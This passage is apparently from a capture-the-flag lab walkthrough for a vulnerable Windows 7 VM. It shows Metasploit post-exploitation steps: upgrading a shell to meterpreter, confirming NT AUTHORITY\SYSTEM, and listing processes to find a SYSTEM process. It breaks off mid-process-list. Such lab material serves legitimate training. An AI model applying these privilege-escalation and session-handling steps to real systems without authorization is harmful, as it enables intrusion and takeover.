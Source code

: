
Confirm that the exploit has run correctly. You may have to press enter for the DOS shell to appear. Background this shell (CTRL + Z). If this failed, you may have to reboot the target VM. Try running it again before a reboot of the target.


------------------------------------------
# Task 3  Escalate

Escalate privileges, learn how to upgrade shells in metasploit.

## Answer the questions below

### If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected) 
Google this: shell_to_meterpreter
post/multi/manage/shell_to_meterpreter

### Select this (use MODULE_PATH). Show options, what option are we required to change?
SESSION

### Set the required option, you may need to list all of the sessions to find your target here. 
sessions -l

### Run! If this doesn't work, try completing the exploit from the previous task once more.
Command: run (or exploit)

### Once the meterpreter shell conversion completes, select that session for use.
sessions SESSION_NUMBER

Verify that we have escalated to NT AUTHORITY\SYSTEM. Run getsystem to confirm this. Feel free to open a dos shell via the command 'shell' and run 'whoami'. This should return that we are indeed system. Background this shell afterwards and select our meterpreter session for usage again. 

List all of the processes running via the 'ps' command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id (far left column).

```bash
meterpreter > shell
Process 1356 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

meterpreter > ps

Process List
============

 PID   PPID  Name                  Arch  Session  User                          Path
 ---   ----  ----                  ----  -------  ----                          ----
```
